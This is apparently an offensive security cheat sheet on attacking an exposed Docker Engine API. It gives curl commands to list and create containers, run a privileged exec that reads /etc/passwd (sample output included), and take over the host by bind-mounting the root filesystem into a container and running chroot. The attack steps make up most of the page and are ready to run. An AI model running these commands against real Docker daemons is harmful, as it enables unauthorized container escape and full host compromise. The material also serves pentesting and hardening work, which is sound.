 The Docker daemon can listen for [Docker Engine API](https://docs.docker.com/engine/api/) requests via three different types of socket:
- `unix`
- `tcp`
- `fd`

By default, Docker runs through a non-networked UNIX socket, which is created at `/var/run/docker.sock` and requires either root permission or docker group membership.

A `tcp` socket is used to remotely access the Docker daemon, for which the default setup provides un-encrypted and un-authenticated direct access. It is conventional to use port **2375** for un-encrypted, and port **2376** for encrypted communication with the daemon.

On Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd: //`.

Sometimes the Docker daemon can be accessed inside the container or over the network. It is often leads to commands execution on the host system and escape from the container.

## List of all containers

`curl` command to list all containers on the host over `unix` socket.

```bash
$ curl -s --unix-socket /var/run/docker.sock http:/containers/json
```

`curl` command to list all containers on the host over `tcp` socket.

```bash
$ curl -s http://<host>:<port>/containers/json
```

## Create a container

`curl` command to create container over `unix` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    --unix-socket /var/run/docker.sock \
    "http:/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

`curl` command to create container over `tcp` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

## Start the container

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/${CONTAINER_NAME}/start" \
    -X POST \
    -H "Content-Type: application/json" 
```

## Code execution in a container

First you need to create an instance of `exec` that will run in the container.

```bash
$ curl \
    -s \
    "http://<host>:<port>/containers/<container_id>/exec" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}'

HTTP/1.1 201 Created
...

{"Id":"913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3"}
```

Now that `exec` has been created, you need to run it.

```bash
$ export EXEC_ID=913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3
$ curl \
    -s \
    "http://<host>:<port>/exec/${EXEC_ID}/start"
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"Detach": false,"Tty": false}' \

HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## Host takeover

To execute commands on the host system, start the Docker container and mount the host root directory on the container volume.

1. Download ubuntu image.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/images/create?fromImage=ubuntu&tag=latest" \
        -X POST \
        -H 'Content-Type: application/json'
    ```

2. Create a container.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/containers/create"
        -X POST \
        -H "Content-Type: application/json" \
        -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
    ```

3. Start the container.
4. In order to execute commands on the host system, change the root directory.

    ```bash
    $ chroot /hostfs
    ```

# References

- [Write up: Escaping the Cloud Shell container](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/)
